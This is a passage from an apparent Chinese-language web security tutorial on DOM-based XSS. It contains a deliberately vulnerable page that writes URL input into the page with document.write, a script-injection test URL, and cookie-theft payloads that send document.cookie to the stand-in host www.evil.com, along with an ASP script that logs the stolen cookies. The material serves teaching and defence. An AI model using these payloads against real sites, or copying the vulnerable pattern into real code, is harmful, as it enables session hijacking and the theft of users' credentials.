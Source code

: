 ### DOM XSS

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM-Based XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。客户端 JavaScript 可以访问浏览器的 DOM 文本对象模型，因此能够决定用于加载当前页面的 URL。换句话说，客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于服务器端的数据，而从客户端获得 DOM 中的数据（如从 URL 中提取数据）并在本地执行。另一方面，浏览器用户可以操纵 DOM 中的一些对象，例如 URL、location 等。用户在客户端输入的数据如果包含了恶意 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到基于 DOM 的 XSS 攻击。

HTML 代码：

```html
<html>
  <head>
    <title>DOM-XSS test</title>
  </head>
  <body>
    <script>
      var a=document.URL;
      document.write(a.substring(a.indexOf("a=")+2,a.length));
    </script>
  </body>
</html>
```

将代码保存在 domXSS.html 中，浏览器访问：

```
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```

即可触发 XSS 漏洞。

## XSS 利用方式

### Cookies 窃取

攻击者可以使用以下代码获取客户端的 Cookies 信息：

```html
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

在远程服务器上，有一个接受和记录 Cookies 信息的文件，示例如下：

```asp
<%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("Scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.Writeline(""&msg& "")
  thisfile.close
  set fs=nothing
%>
```
